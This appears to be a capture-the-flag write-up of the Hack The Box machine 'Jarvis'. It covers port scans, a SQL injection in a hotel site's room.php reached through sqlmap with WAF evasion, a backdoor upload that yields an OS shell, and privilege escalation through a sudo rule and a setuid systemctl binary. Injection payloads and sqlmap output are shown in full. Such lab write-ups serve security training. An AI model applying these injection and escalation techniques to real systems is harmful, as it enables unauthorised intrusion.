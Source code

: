 # Jarvis
>Author : Xyan1d3
>Date : 7th July 2021
>IP : 10.10.10.143
>OS : Linux
>Difficulty : Medium
# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Wed Jul  7 00:51:04 2021 as: nmap -sC -sV -v -oN nmap/jarvis 10.10.10.143
Nmap scan report for 10.10.10.143
Host is up (0.063s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Nmap all ports without scripts
```sql
# Nmap 7.91 scan initiated Wed Jul  7 00:51:44 2021 as: nmap -p- -v -oN nmap/jarvis-allports 10.10.10.143
Nmap scan report for 10.10.10.143
Host is up (0.063s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
64999/tcp open  unknown
```

## Nmap all open tcp ports with scripts
```sql
# Nmap 7.91 scan initiated Wed Jul  7 00:53:25 2021 as: nmap -p22,80,64999 -A -v -oN nmap/deep-scan 10.10.10.143
Nmap scan report for 10.10.10.143
Host is up (0.061s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   62.20 ms 10.10.14.1
2   61.14 ms 10.10.10.143
```

## Gobuster
```python
┌─[Magisk@Xyan1d3]─[10.10.14.18]─[~/htb/jarvis]
└──╼ # gobuster dir -u http://10.10.10.143/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster80.out -x php,txt -t 100
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.143/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2021/07/07 00:55:22 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 313] [--> http://10.10.10.143/images/]
/index.php            (Status: 200) [Size: 23628]                                
/nav.php              (Status: 200) [Size: 1333]                                 
/footer.php           (Status: 200) [Size: 2237]                                 
/css                  (Status: 301) [Size: 310] [--> http://10.10.10.143/css/]   
/js                   (Status: 301) [Size: 309] [--> http://10.10.10.143/js/]    
/fonts                (Status: 301) [Size: 312] [--> http://10.10.10.143/fonts/] 
/phpmyadmin           (Status: 301) [Size: 317] [--> http://10.10.10.143/phpmyadmin/]
/connection.php       (Status: 200) [Size: 0]
/room.php             (Status: 302) [Size: 3024] [--> index.php]
/sass                 (Status: 301) [Size: 311] [--> http://10.10.10.143/sass/]
/server-status        (Status: 403) [Size: 300]
```

# Initial FootHold as www-data
We visit the site and find out that we have a hotel booking catalog.
![[Pasted image 20210707012551.png]]

The `http://10.10.10.143/room.php?cod=1` page has a parameter `cod` is sql injectible.
But, We have a `WAF` in play which blocks any us for `90` seconds if it sees a request with useragent `sqlmap`.
We need to add `--random-agent` for using random user-agent.

```python
┌─[Magisk@Xyan1d3]─[10.10.14.18]─[~/htb/jarvis]
└──╼ # sqlmap -u http://10.10.10.143/room.php?cod=1 --batch --random-agent --os-shell

*** SNIP ***

sqlmap resumed the following injection point(s) from stored session:

---                                                                                 
Parameter: cod (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cod=1 AND 5046=5046
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)              
    Payload: cod=1 AND (SELECT 8456 FROM (SELECT(SLEEP(5)))SHbk)
    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: cod=-6676 UNION ALL SELECT NULL,NULL,CONCAT(0x71787a6271,0x46676156447850715242586668526242444e5a554a4d4375555768776e79617776576562414e714a,0x71787a7171),NU
LL,NULL,NULL,NULL-- -
---
[01:31:33] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9 (stretch)
web application technology: PHP, Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[01:31:33] [INFO] retrieved web server absolute paths: '/images/'
[01:31:33] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[01:31:34] [WARNING] unable to upload the file stager on '/var/www/'
[01:31:34] [INFO] trying to upload the file stager on '/var/www/' via UNION method
[01:31:34] [WARNING] expect junk characters inside the file as a leftover from UNION query
[01:31:35] [WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
[01:31:35] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[01:31:35] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://10.10.10.143:80/tmpueokp.php
[01:31:36] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://10.10.10.143:80/tmpbpubb.php
[01:31:36] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> id
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'uid=33(www-data) gid=33(www-data) groups=33(www-data)'
```

We could now issue a reverse shell and get a proper shell.
![[Pasted image 20210707013459.png]]

# User Escalation as pepper
The user `www-data` has a sudo `nopasswd` rule.
```python
www-data@jarvis:/var/www$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

![[Pasted image 20210707020009.png]]

We have to get a reverse shell from the spawned bash as it tends to not return any output for a command.

## Getting the user Flag
```python
pepper@jarvis:/var/www$ cd /home/pepper/
pepper@jarvis:~$ ls -l
total 8
drwxr-xr-x 3 pepper pepper 4096 Mar  4  2019 Web
-r--r----- 1 root   pepper   33 Mar  5  2019 user.txt
pepper@jarvis:~$ cat user.txt 
2afa36c4f05b37b34259c93551f5c44f
```

# Root Escalation
On, Checking all the suid binaries on this box we find out that we have a setuid bit set on the `systemctl` binary.
```python
pepper@jarvis:~$ find / -perm /4000 2> /dev/null
/bin/fusermount
/bin/mount
/bin/ping
/bin/systemctl
/bin/umount
/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

We create a service and start it to get a shell in the box.
![[Pasted image 20210707021715.png]]

## Getting Root Flag
```python
root@jarvis:/# cd /root/
root@jarvis:/root# ls -l
total 16
-rwxr--r-- 1 root root   42 Mar  4  2019 clean.sh
-r-------- 1 root root   33 Mar  5  2019 root.txt
-rwxr-xr-x 1 root root 5271 Mar  5  2019 sqli_defender.py
root@jarvis:/root# cat root.txt 
d41d8cd98f00b204e9800998ecf84271
```